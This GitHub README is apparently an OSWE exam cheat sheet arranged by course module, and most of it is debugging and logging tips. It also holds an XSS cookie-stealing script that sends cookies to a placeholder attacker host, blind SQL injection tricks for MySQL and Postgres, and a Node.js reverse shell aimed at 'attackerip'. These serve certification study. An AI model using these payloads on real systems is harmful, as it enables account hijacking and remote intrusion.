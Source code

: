 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    <script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    function addImage() {<br>
    var img = document.createElement('img');<br>
    img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    document.body.appendChild(img);<br>
    }<br>
    addImage();<br>
    
4. Set cookie by web developer console<br>
    javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("POST", url, true)<br>
    xhr.send(data)<br>
    
6. XHR GET Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("GET", url, true)<br>
    xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            [mysqld]<br>
            general_log_file = /var/log/mysql/mysql.log<br>
            general_log = 1<br>
    systemctl restart mysql        //Restart MySQL<br>
    tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    echo "any message";<br>
    
4. Dump information about varaible<br>
    var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    mysql> select ascii(substring((select version()),1,1))=53;  /** use with "or" boolean **/<br>
    
8. Create ZIp file using Python2 <br>
    !/usr/bin/python <br>
    import zipfile <br>
    from cStringIO import StringIO<br>

    def build_zip():<br>
        f = StringIO()<br>
        z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)<br>
        z.writestr('folder/file.txt', 'secret')<br>
        z.close()<br>
        zip = open('zip.zip','wb')<br>
        print f.getvalue()<br>
        zip.write(f.getvalue())<br>
        zip.close()<br>
    
    build_zip()<br>

Module : PHP Type Juggling Vulnerability : 
1.  Configure SMTP Server<br>
    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & /* & for run in background */<br>
    
Module : ManageEngine Application Manager AMUserResourcesSyncServlet SQL(Postgres) Injection & RCE : <br>
1.  web.xml determine how URLs mapped<br>
2.  Tool JD-GUI use to decompile java<br>
3.  Find SQL injection vulnerability using below regular expression<br>
        ^.*?query.*?select.*?<br>
4.  Enable postgres logging by uncommenting below line in postgresql.conf file<br>
        log_statement = 'all'<br>
5.  postgre cli
        psql -U username -p 15432  /* p=port, /<br>
6.  Alternative of single quote(') is duble doller sign($$)<br>
7.  decode string in postgres<br>
        select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');<br>
8.  Using CHR and String Concatenation<br>
        SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);<br>
9.  Accessing the File System in postgres<br>
        COPY <table_name> from <file_name><br>
        COPY <table_name> to <file_name><br>
10. PostgreSQL Extensions<br>
        CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
        
Module : The Bassmaster Plugin (Nodejs) : 
1. JavaScript reverse shell
     var net = require("net"), sh = require("child_process").exec("/bin/bash");
     var client = new net.Socket();
     client.connect(53, "attackerip",
     function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
     sh.stderr.pipe(client);});

Module : DotNetNuke Cookie Deserialization RCE
1. XmlSerializer Limitations
        XmlSerializer is only able to serialize public properties and fields of an object.
2. For better debugging experirence modify the debugging dll in dnSpy tool
          [assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default | DebuggableAttribute.DebuggingModes.DisableOptimizations |
           DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints | DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]
3. XML Serialization & Deserialization method
    XmlSerializer.serialize() and XmlSerializer.deserialize(reader)
4. Java Serialization & Deserialization method
    Deserialization : inputObjectStream.readObject() and Serialization: outputObjectStream.writeObject()
    
Module : ERPNext Authentication Bypass and Server Side Template Injection :
1. Run SMTP Server on Kali 
    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25
    
